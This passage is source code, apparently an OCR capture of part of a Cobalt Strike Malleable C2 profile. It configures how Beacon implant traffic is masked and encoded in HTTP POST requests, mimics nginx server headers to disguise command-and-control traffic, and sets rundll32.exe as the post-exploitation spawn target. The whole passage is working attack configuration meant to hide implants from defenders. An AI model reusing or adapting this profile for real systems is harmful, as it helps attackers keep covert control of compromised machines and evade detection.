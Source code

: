 ```

		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
}

# define indicators for an HTTP 
http-post {
	# Same as above, Beacon will randomly choose from this pool of URIs [if multiple URIs are provided]
	set uri "/IMXo";
	client {
		#header "Content-Type" "application/octet-stream";				

		# transmit our session identifier as /submit.php?id=[identifier]
		
		id {				
			mask;
			netbiosu;
			prepend "user=";
			append "%%";
			header "User";
		}

		# post our output with no real changes
		output {
			mask;
			base64url;
			prepend "data=";
			append "%%";		
			print;
		}
	}

	# The server's response to our HTTP POST
	server {
		header "Server" "nginx/1.10.3 (Ubuntu)";
    		header "Content-Type" "application/octet-stream";
        	header "Connection" "keep-alive";
       	 	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";

		# this will just print an empty string, meh...
		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
}

post-ex {
    set spawnto_x86 "c:\\windows\\syswow64\\rundll32.exe";
    set spawnto_x64 "c:\\windows\\system32\\rundll32.exe";
```